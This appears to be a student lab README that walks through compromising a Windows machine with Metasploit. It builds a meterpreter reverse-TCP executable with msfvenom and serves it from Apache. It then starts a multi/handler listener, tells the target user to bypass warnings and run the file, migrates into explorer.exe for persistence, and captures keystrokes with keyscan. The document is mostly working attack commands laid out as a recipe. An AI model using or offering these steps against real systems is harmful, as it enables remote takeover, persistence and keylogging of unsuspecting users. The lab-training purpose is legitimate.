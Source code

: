 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/e9db632c-5913-4108-bf68-ae3f8c5f44df)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/a04c7d0c-7627-4785-aec1-f893d1ca05a2)


copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/986db1a9-9f63-43d2-8df8-e5d421db2f56)

Start apache server sudo systemctl apache2 start 

![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/e05fe76c-3e28-46f9-80fd-d9e4d4c2cbae)


Check the status of apache2 

![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/9efed500-0b13-4c61-98b8-551a621e22d9)


Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/df20f4e5-1bff-49f7-a7f9-eee70aea4d20)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.


![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/3f0de5f4-8201-4b8d-8085-b2830e55f966)


Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit 

![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/f2faefbc-3d89-4213-8f08-bac5789b4480)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:


migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted


![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/3655a3e1-1b91-43e5-b221-c77662d1ed9e)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/99608f54-d297-4201-8d17-91b2d6152760)


keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/128350225/adfe4b27-660d-44a1-8e53-03d7e359788b)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

